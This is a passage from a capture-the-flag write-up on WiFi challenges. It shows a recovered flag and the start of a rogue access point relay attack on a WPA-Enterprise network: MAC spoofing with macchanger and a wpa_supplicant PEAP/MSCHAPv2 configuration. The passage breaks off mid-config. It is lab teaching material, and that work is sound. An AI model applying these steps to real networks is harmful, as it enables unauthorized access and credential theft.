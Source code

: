 I am connected and I can use `dhclient`:

```shell
dhclient wlan3 -v 
```

![](Images/Recon21_02.png)


**Flag :**  `flag{gsnyT98GxngXgMPJEIKw}`

## **22. What is the flag on the wifi-regional AP?**

**Challenge Description :**  What is the flag on the wifi-regional AP?

### Approach

This challenge can be resolved by following the same method than previous exercice.

```shell
systemctl stop network-manager
airmon-ng stop wlan1mon
ip link set wlan1 down
macchanger -m F0:9F:C2:00:00:00 wlan1
ip link set wlan1 up
```

I do little modyfication in the following file:

```shell
echo '
network={
  ssid="wifi-regional"
  ## The SSID you would like to relay and authenticate against. 
  scan_ssid=1
  key_mgmt=WPA-EAP
  ## Do not modify
  identity=""
  anonymous_identity=""
  password=""
  ## This initialises the variables for me.
  ## -------------
  eap=PEAP
  phase1="crypto_binding=0 peaplabel=0"
  phase2="auth=MSCHAPV2"
  ## Dont want to connect back to ourselves,
  ## so add your rogue BSSID here.
  bssid_blacklist=F0:9F:C2:00:00:00
```